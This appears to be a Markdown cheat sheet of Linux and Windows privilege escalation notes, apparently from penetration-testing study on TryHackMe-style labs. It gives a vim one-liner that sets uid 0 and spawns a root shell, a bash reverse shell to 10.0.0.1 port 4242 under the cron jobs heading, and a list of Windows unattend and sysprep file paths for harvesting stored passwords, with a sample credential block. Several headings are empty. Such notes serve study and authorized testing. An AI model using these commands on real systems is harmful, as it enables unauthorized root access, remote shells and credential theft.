 ### 1-1-8 Privilege Escalation: Capabilities 
command:  
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
### 1-1-9 Privilege Escalation: Cron Jobs 
command:  
```bash

cat /etc/crontab 

bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

### 1-1-10 Privilege Escalation: PATH  

### 1-1-11 Privilege Escalation: ALL=(ALL) NOPASSWD: /usr/bin/php

[link](https://medium.com/@rebaleos0/privilege-escalation-all-all-nopasswd-usr-bin-php-241a2c43e58d)

### 1-1-12 Service Exploits

#### sql 
https://tryhackme.com/room/linuxprivesc

- Service Exploits***
- Sudo - Environment Variables***

>futhermore  

https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md 
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html

https://payatu.com/guide-linux-privilege-escalation


# Windows Privilege Escalation  

## Harvesting Passwords from Usual Spots 
```xml
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml 

<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```
